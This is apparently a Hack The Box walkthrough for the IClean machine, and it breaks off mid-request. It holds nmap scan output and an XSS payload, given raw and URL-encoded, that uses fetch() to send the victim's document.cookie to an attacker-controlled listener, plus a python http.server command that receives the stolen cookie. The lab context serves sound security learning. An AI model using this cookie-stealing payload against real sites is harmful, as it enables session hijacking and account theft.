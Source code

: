 ```yaml
---
title: "IClean from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# IClean from HTB
[page](https://app.hackthebox.com/machines/IClean)
`Nmap` gave this:
```bash
$ nmap -sCV --min-rate 4000 -Pn 10.10.11.12
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 17:05 +04
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 87.50% done; ETC: 17:05 (0:00:00 remaining)
Nmap scan report for capiclean.htb (10.10.11.12)
Host is up (0.25s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE  SERVICE       VERSION
21/tcp   closed ftp
23/tcp   closed telnet
25/tcp   closed smtp
53/tcp   closed domain
80/tcp   open   http          Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Capiclean
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
110/tcp  closed pop3
139/tcp  closed netbios-ssn
199/tcp  closed smux
445/tcp  closed microsoft-ds
587/tcp  closed submission
995/tcp  closed pop3s
1025/tcp closed NFS-or-IIS
3306/tcp closed mysql
3389/tcp closed ms-wbt-server

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.38 seconds
```
Nothing unusual.
First add the site to `/etc/hosts`:
```
10.10.11.12 capiclean.htb
```
Then access the site. There is send quote link. Go to that and then we have to use `XSS`to steal the cookie with `BurpSuite`:
Turn on the `Intercept`and before you send the `email`you need to intercept and change the email you send with `XSS`script to get the cookie:
```bash
<img src=x onerror=fetch("http://10.10.16.47:8888/"+document.cookie)> ----- XSS script

%3Cimg%20src%3Dx%20onerror%3Dfetch(%22http%3A%2F%2F10.10.16.47%3A8888%2F%22%2Bdocument.cookie)%3E ---- encoded XSS script

python3 -m http.server 8888 ---- simple http python server
```
`BurpSuite`payload:
```
POST /sendMessage HTTP/1.1
Host: capiclean.htb
Content-Length: 127
```